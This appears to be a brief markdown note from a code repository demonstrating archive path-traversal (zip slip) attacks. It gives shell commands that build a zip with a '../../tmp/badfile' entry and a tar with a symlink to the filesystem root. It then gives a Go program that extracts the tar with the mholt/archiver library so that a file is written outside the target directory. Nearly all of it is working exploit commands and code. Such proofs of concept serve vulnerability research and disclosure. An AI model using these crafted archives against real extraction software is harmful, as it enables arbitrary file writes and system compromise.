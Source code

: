 
### path traversal (zip slip)

zip traversal.zip ../../tmp/badfile
unzip traversal -vl traversal.zip

### symlinks

make link in your local dir:
ln -s / root
root will get perms lrwxr-xr-x and point to -> root
tar -cf smlnk.tar root/ root/tmp/badfile

tar -tf smlnk.tar lists contents:
	root
	root/tmp/badfile

example using vuln go lib to extract files
```go
package main

import "github.com/mholt/archiver"

func main() {
	archiver.Tar.Open("test.tar", "test.out")
}
```
go run test.go
the root symlink is ext to dir test.out and badfile to /tmp





